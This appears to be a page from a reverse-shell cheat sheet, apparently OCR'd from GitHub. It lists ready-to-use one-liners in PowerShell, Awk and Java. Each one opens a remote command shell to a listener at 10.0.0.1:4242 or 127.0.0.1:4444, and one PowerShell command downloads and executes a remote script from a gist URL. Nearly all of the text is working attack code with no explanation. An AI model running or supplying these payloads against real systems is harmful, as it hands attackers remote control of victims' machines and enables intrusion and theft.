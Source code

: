 ### Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

### Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Java

```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();

```

#### Java Alternative 1

```java
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```
